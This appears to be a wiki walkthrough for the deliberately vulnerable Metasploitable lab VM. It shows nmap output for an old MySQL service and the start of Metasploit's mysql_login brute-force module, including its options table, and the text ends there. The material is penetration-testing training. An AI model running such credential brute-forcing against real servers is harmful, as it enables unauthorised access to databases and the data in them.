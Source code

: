 
Metasploitable/MySQL
Contents [hide]

    1 Basics
    2 MySQL
        2.1 Exploiting MySQL
        2.2 Obtain /etc/passwd from MySQL with Metasploit
        2.3 MySQL Enumerate Users
        2.4 Dump MySQL Database Contents (SQL Commands)
        2.5 Dump MySQL Database Contents (mysqlshow)
        2.6 Dump MySQL Database Contents (mysqldump)
            2.6.1 Damn Vulnerable Web App
            2.6.2 Owasp10 Database
    3 Flags

Basics

See MSF for context of how we are using the Metasploit framework.

See Metasploitable for walkthrough of different parts of Metasploitable virtual box.
MySQL

We've just done some recon of the Metasploitable box, which is at 10.0.0.27. We saw it had multiple services running, including MySQL.

Let's focus on the MySQL service:

3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info:
|   Protocol: 53
|   Version: .0.51a-3ubuntu5
|   Thread ID: 8
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsTransactions, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, ConnectWithDatabase, LongColumnFlag, SupportsCompression
|   Status: Autocommit
|_  Salt: w$K,8vk7k8tagd@PR*zK

This is a very old version of MySQL (5.0.5, the current version is 5.7.11). If we look for mysql exploits in metasploit, we find this one: https://www.offensive-security.com/metasploit-unleashed/scanner-mysql-auxiliary-modules/

This is a brute-force login exploit for MySQL.

msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host